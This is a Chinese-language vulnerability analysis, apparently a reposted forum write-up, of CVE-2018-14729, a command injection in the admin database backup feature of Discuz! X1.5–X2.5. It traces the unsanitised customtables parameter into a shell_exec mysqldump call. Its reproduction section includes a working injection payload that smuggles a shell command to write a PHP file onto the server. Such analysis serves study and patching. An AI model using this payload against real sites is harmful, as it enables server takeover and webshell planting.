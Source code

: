 # （CVE-2018-14729）Discuz! X1.5 ~ X2.5 后台数据库备份功能远程命令执行 Getshell

> 原文：[https://www.zhihuifly.com/t/topic/2883](https://www.zhihuifly.com/t/topic/2883)

# （CVE-2018-14729）Discuz!X 1.5 ~ X2.5 后台数据库备份功能远程命令执行 Getshell

## 一、漏洞简介

## 二、漏洞影响

Discuz! X1.5-2.5

## 三、复现过程

### 漏洞分析

需要注意的是这个漏洞其实是需要登录后台的，并且能有数据库备份权限，所以比较鸡肋。

我这边是用Discuz! 2.5完成漏洞复现的，并用此进行漏洞分析的。

漏洞点在：

```
source/admincp/admincp_db.php 
```

第296行：

```
@shell_exec($mysqlbin.'mysqldump --force --quick '.($db->version() > '4.1' ? '--skip-opt --create-options' : '-all').' --add-drop-table'.($_GET['extendins'] == 1 ? ' --extended-insert' : '').''.($db->version() > '4.1' && $_GET['sqlcompat'] == 'MYSQL40' ? ' --compatible=mysql40' : '').' --host="'.$dbhost.($dbport ? (is_numeric($dbport) ? ' --port='.$dbport : ' --socket="'.$dbport.'"') : '').'" --user="'.$dbuser.'" --password="'.$dbpw.'" "'.$dbname.'" '.$tablesstr.' > '.$dumpfile); 
```

在shell_exec()函数中可控点在$tablesstr，向上看到第281行：

```
$tablesstr = '';
foreach($tables as $table) {
    $tablesstr .= '"'.$table.'" ';
} 
```

跟一下$table的获取流程，在上面的第143行：

```
if($_GET['type'] == 'discuz' || $_GET['type'] == 'discuz_uc') 
{
    $tables = arraykeys2(fetchtablelist($tablepre), 'Name');
} 
elseif($_GET['type'] == 'custom') 
{
    $tables = array();
    if(empty($_GET['setup'])) 
    {
        $tables = C::t('common_setting')->fetch('custombackup', true);
    } 
    else 
    {
        C::t('common_setting')->update('custombackup', empty($_GET['customtables'])? '' : $_GET['customtables']);
        $tables = & $_GET['customtables'];
    }
    if( !is_array($tables) || empty($tables)) 
    {
        cpmsg('database_export_custom_invalid', '', 'error');
    }
} 
```

可以看到：

```
C::t('common_setting')->update('custombackup', empty($_GET['customtables'])? '' : $_GET['customtables']);
$tables = & $_GET['customtables']; 
```

首先会从$_GET的数组中获取customtables字段的内容，判断内容是否为空，不为空则将从外部获取到的customtables字段内容写入common_setting表的skey=custombackup的svalue字段，写入过程中会将这个字段做序列化存储：

![image](img/5620df6d067f655350f8ab3329a0c0a7.png)

之后再将该值赋给$tables。

至此可以看到漏洞产生的原因是由于shell_exec()中的$tablesstr可控，导致代码注入。

### 漏洞复现

首先抓个包

![image](img/8888ba7d15cb455769918c07dc18bf48.png)

这样可以抓到符合我们条件的请求包。

![image](img/1a7864c17bfac25a00c570d7f745248d.png)

接下来只需要将customtables的内容更改一下就可以造成命令执行了：

```
customtables[] = pre_common_admincp_cmenu">aaa; echo '<?php phpinfo(); ?>' > phpinfo.php # 
```

![image](img/817d45781aa8982ee79782a77cacd93b.png)

![image](img/3686b0c1bcfe6a1d2ef3bef0643230d5.png)

效果为：

![image](img/a0a2ba745b07981d660e1fad06fa2d4e.png)

## 参考链接

> https://github.com/FoolMitAh/CVE-2018-14729/blob/master/Discuz_backend_getshell.md

> https://www.anquanke.com/post/id/158270